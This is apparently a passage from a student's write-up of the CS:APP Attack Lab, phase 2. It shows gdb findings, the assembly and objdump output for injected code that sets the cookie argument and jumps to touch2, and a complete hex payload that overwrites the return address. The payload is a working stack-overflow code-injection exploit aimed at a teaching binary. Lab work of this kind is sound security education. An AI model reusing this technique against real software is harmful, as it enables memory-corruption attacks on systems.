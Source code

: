 From `0x00000000004017f0 <+4>:	mov edx,edi`, we need to move the `cookie` value into `%rdi`, as `%rdi` is the first parameter of the function call.

From `0x00000000004017ec <+0>:	sub rsp,0x8`, we know that the address of `touch2` function is `0x00000000004017ec`.

From `$2 = 0x5561dc78`, wo get the address of `buff`, which represents the first instruction after we inject the code.

```Assembly
# solution2.s
movq    $0x59b997fa, %rdi    # 把cookie设置为第一个参数
pushq   $0x4017ec            # 将touch2的首地址压栈
ret                          # 跳转到touch2
```

```Shell
attack_lab/part1# vim solution2.s
attack_lab/part1# gcc -c solution2.s
attack_lab/part1# objdump -d solution2.o

solution2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq
attack_lab/part1#
```

`48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3` is just the code instruction we want to inject. So, our payload is that:

```Text
# Remove "# ..." when you test the code
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 # exploit code
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 # characters used to fill
78 dc 61 55 00 00 00 00 # ret address
```

And in the stack frame, its structure is as follows:

![payload2](../img/payload2.png)
